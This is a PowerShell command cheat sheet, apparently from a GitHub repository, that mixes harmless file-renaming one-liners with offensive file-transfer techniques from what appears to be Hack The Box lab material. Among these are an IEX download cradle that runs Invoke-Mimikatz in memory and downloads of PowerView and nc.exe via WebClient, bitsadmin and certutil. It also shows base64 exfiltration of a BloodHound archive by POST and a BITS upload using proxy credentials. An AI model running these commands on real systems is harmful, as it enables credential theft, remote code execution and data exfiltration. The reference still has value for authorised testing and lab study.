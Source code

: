 # powershell_cmds

## Change all file names to lower case in the current directory

```Powershell
Get-ChildItem | Rename-Item -NewName {$_.Name -replace $_.Name, $_.Name.ToLower()}
```

## Downloading file from raw github content via System.Net.WebClient
```Powershell
(New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1',"C:\Users\Public\Downloads\PowerView.ps1")
```

## Downloading file from raw github content via Invoke-WebRequest (slower for downloading files)

```Powershell
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```
## Invoking payload in memory

```Powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

## If IE configuration hasn't been finished, use the -UseBasicParsing option

```Powershell
Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | iex
```

## Disable IE First Run Customization

```Powershell
reg add "HKLM\SOFTWARE\Microsoft\Internet Explorer\Main" /f /v DisableFirstRunCustomize /t REG_DWORD /d 2
```

## Other Powershell Download Cradles

https://gist.github.com/HarmJ0y/bb48307ffa663256e239

## Uploading Files using Invoke-WebRequest

```Powershell
PS C:\htb> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'c:/users/public/downloads/BloodHound.zip' -Encoding Byte))
PS C:\htb> Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64
```

## Background Intelligent Transfer Service (BITS) for HTTP sites and SMB shares

```Powershell
PS C:\htb> bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe
```

## BITS can utilize service credentials and proxy servers

### Download

```Powershell
PS C:\htb> Import-Module bitstransfer;Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Temp\nc.exe"
```

### Upload

```Powershell
PS C:\htb> Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql
```

## Certutil (recognized by AMSI - Antimalware Scan Interface - as abusing)

```Powershell
certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```

## Get User Agents for Powershell

```Powershell
PS C:\htb> [Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | Format-List
```

## Bulk change extension for files in the current directory

```Powershell
ls | Rename-Item -NewName { [io.path]::ChangeExtension($_.name, "json") }
```
